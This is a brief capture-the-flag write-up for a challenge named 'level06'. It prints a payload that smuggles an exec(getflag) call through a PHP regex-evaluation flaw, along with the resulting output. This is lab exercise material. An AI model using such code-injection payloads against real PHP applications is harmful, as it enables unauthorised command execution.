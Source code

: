 in the ~/ we got 2 files: 
- binary level06 (name of file to open and send to php)
- level06.php

```bash
echo '[x ${(exec(getflag))}]' > /tmp/p
./level06 /tmp/p
```

PHP Notice:  Undefined variable: Check flag.Here is your token : in /home/user/level06/level06.php(4) : regexp code on line 1